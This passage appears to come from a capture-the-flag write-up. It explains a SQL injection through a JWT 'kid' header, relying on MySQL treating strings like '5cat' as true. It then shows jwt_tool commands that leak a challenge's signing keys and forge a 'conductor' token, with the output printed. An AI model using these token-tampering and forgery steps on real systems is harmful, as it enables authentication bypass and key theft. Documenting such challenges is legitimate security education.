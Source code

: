 {% code overflow="wrap" %}
```sql
SELECT * FROM demo WHERE name = 'crypto' or 'cat';
```
{% endcode %}

It returns zero results, while this query returns all rows from the DB.

{% code overflow="wrap" %}
```sql
SELECT * FROM demo WHERE name = 'crypto' or '5cat';
```
{% endcode %}

The same applies to `MariaDB`, but `PostgreSQL` and `MSSQL` respond with an error.

Anyway, returning to our SQL statement, we have two conditions: one is true, and one is false. If we OR these results, the overall condition returns `true` (`0 || 1 = 1`), and all keys will be returned from the DB.

Time to test it out 🙂

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -S hs256 -p a_boring_passenger_signing_key_? -I -pc type -pv conductor -hc kid -hv DyrhGOYP0vxI2DtH8y

jwttool_5897f616a9cbf019ed0a61e0b50a095c - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsImtpZCI6IkR5cmhHT1lQMHZ4STJEdEg4eSIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiY29uZHVjdG9yIn0.jFCtw7Xi4WzujhfDRjLMez-qEfm-al8sVpvc00Dfr4k
```
{% endcode %}

We send the request with the new token and receive all the keys in return 😎

{% code overflow="wrap" %}
```json
{
    "message": "Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?",
    "success": false
}
```
{% endcode %}

### JWT Forgery

Now we need to forge a brand new JWT for the `conductor` using the associated key: `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -S hs256 -p conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e -I -pc type -pv conductor -hc kid -hv conductor_key

jwttool_d7c1ddf109460134a3b2f811d55a255e - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsImtpZCI6ImNvbmR1Y3Rvcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoiY29uZHVjdG9yIn0.9YEcZgwQH46F4wckPyovNOwao49zdlEPoQ9HdiXimK4
```
{% endcode %}
